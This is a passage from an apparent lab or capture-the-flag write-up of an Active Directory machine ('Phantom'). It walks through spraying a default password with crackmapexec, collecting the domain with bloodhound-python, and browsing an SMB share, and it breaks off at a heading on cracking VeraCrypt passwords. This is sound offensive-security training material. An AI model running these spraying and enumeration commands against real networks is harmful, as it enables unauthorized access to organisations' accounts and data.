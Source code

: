There seems to be a `.eml` file within this directory, containing a message from what seems to be tech support. A base64 encoded attachment was provided in this email, though it is unintelligible from our perspective on Linux (if we try to decode it with basic tools). I instead opted to copy it to my Windows host and open it through Outlook.

![](/images/vulnlab/phantom-vl/b.png)

It seems that a basic password is provided for new users with this tech support document. This should be the default password for new users that are onboarded, so we can potentially test this against the user list that we currently have.

```
└─$ crackmapexec ldap 10.10.103.169 -u full_ul.txt -p '(EMAIL PASSWORD)' --continue-on-success
......
LDAP        10.10.103.169   389    DC               [+] phantom.vl\ibryant:(EMAIL PASSWORD)
```

You'll receive a few false positives when testing these credentials against the domain, as denoted by the unsuccessful bind message under each false positive.

That being said, a user/password match did seem to return within a successful bind for `ibryant`. Since they are successfully able to authenticate to LDAP, we can dump the domain using Bloodhound and the [Python ingestor](https://github.com/dirkjanm/BloodHound.py). 

```
└─$ bloodhound-python -d 'phantom.vl' -u 'ibryant' -p '(IBRYANT PASSWORD)' -c all -ns 10.10.103.169 --zip
INFO: Compressing output into 20240713234621_bloodhound.zip
```

After booting up Bloodhound and checking out our user's node, it does not seem that we have any outbound object controls/privileges over any other domain objects. Having the Bloodhound graph is still helpful for us later down the attack path for other users we compromise.

I was able to find out after some password usage against SMB that we now have access to the `Department Share` SMB share with `ibryant`. Let's see what we can find within this share.

```
└─$ smbclient \\\\10.10.103.169\\Departments\ Share -U 'ibryant'
Password for [WORKGROUP\ibryant]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul  6 12:25:31 2024
  ..                                DHS        0  Sun Jul  7 04:39:30 2024
  Finance                             D        0  Sat Jul  6 12:25:11 2024
  HR                                  D        0  Sat Jul  6 12:21:31 2024
  IT                                  D        0  Thu Jul 11 10:59:02 2024

6127103 blocks of size 4096. 1178542 blocks available
```

I did some spidering on this share, and it seems that there is notably a bit of information for the next exploit within the `IT` directory.

# Cracking VeraCrypt Volume Passwords
